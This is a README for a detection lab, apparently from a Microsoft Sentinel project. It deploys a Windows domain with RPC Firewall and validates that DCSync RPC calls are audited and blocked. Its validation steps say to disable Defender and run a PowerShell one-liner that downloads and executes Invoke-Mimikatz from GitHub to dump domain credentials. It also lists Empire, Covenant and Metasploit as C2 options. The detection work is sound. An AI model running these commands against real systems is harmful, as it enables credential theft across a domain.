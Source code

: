 # Windows 10 + Domain Controller + Windows Event Collector (WEC) + RPC Firewall Project 

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FWin10-RPCFW%2Fazuredeploy.json)
[![Deploy to Azure Gov](https://aka.ms/deploytoazuregovbutton)](https://portal.azure.us/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FWin10-RPCFW%2Fazuredeploy.json)

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
    * [Windows Security Events via AMA](https://docs.microsoft.com/en-us/azure/sentinel/data-connectors-reference#windows-security-events-via-ama) data connector enabled.
    * [Data collection rule (DCR)](https://docs.microsoft.com/en-us/azure/templates/microsoft.insights/datacollectionrules?tabs=json) to collect Windows Security events.
    * [Windows RPC Firewall parser](https://raw.githubusercontent.com/OTRF/Microsoft-Sentinel2Go/master/microsoft-sentinel/linkedtemplates/parsers/winRPCFWLogs.json).
* One Windows Active Directory domain (One Domain Controller)
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * Windows [Azure Monitoring Agent](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-overview?tabs=PowerShellWindows) installed. It connects to the Microsoft Sentinel Log Analytics workspace defined in the template.
    * [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) installed.
    * [RPC Firewall config](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/rpcfirewall/RpcFw.conf) used.
* One Windows Event Collector (WEC)
    * Windows [Azure Monitoring Agent](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-overview?tabs=PowerShellWindows) installed. It connects to the Microsoft Sentinel Log Analytics workspace defined in the template.
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * [WEC configured](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/powershell/auditing/Configure-WEC.ps1).
    * [Application Windows event subscriptions](https://github.com/OTRF/Blacksmith/tree/master/resources/configs/wef/subscriptions) deployed.
* Windows 10 Workstations (Max. 10)
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * Windows [Azure Monitoring Agent](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-overview?tabs=PowerShellWindows) installed. It connects to the Microsoft Sentinel Log Analytics workspace defined in the template.
    * [Windows Event Forwarding (WEF) client configured](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/powershell/auditing/Configure-WEF-Client.ps1).
    * [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) installed.
    * [RPC Firewall config](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/rpcfirewall/RpcFw.conf) used.
* [OPTIONAL] Command and Control (c2) options:
    * `empire`
    * `covenant`
    * `metasploit`
* Remote Access Restrictions (`AllowPublicIP` default option)
    * Access via Azure Bastion (Recommended. Additional costs applied)
    * Restrict Access to one Public IP Address (For example, Home Public IP Address)

## Validate Event Generation

1. RDP to DC01
2. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`

![](../../resources/images/win10-rpcfw_check_events.png)

## Validate Event Collection

1. RDP to WEC01
2. Open Event Viewer and go to `Windows Logs` > `Forwarded Events`

![](../../resources/images/win10-rpcfw_forwarded_events.png)

3. In Event Viewer, go to `Subscriptions`

![](../../resources/images/win10-rpcfw_windows_subscriptions_queries.png)

4. Go to [https://portal.azure.com/](https://portal.azure.com/) and search for "Microsoft Sentinel". You should see logs flowing 5-10 minutes after the deployment of the environment. Events will be available in the `WindowsEvents` table.

![](../../resources/images/win10-rpcfw_check_mssentinel.png)

## Validate RPC Firewall Capabilities
### Monitor Directory Replication Service (DRS) RPC Calls

1. Validate that the domain controller contains the `RpcFw.conf` file in the `C:\ProgramData` folder.
2. Validate that the following entry exists in the config file:

```
uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 action:allow audit:true verbose:true
```

3. If you update the configuration, make sure you run the following command:

```PowerShell
.\RpcFwManager.exe /update
```

4. Disable Defender
5. Open PowerShell as an Administrator and run the following commands:

```PowerShell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:mssentinel.local /user:mssentinel\pgustavo" "exit"'
```

6. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`

![](../../resources/images/win10-rpcfw_mk_dcsync.png)

### Block Directory Replication Service (DRS) RPC Calls

1. Validate that the domain controller contains the `RpcFw.conf` file in the `C:\ProgramData` folder.
2. Validate that the following entry exists in the config file:

```
uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 addr:127.0.0.1 action:allow
uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 action:block audit:true verbose:true
```

3. If you update the configuration, make sure you run the following command:

```PowerShell
.\RpcFwManager.exe /update
```

4. Disable Defender
5. Open PowerShell as an Administrator and run the following commands:

```PowerShell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:mssentinel.local /user:mssentinel\pgustavo" "exit"'
```
4. Open Event Viewer and go to `Applications and Services Logs` > `RPCFWP`

![](../../resources/images/win10-rpcfw_block_replication_event.png)

## Query Events in Microsoft Sentinel

1. Go to [https://portal.azure.com/](https://portal.azure.com/) and search for "Microsoft Sentinel".
2. Go to `logs`
3. There will be a function / parser already available for you to query RPC Firewall events:

![](../../resources/images/win10-rpcfw_query_rpcfirewall_limit10.png)

4. Run a basic query to find the use of Directory Replication Services (DRS) in your environment:

![](../../resources/images/win10-rpcfw_query_rpcfirewall_where_replication.png)

## References:
* https://github.com/Cyb3rWard0g/WinRpcFunctions
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0
* https://github.com/zeronetworks/rpcfirewall
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/58f33216-d9f1-43bf-a183-87e3c899c410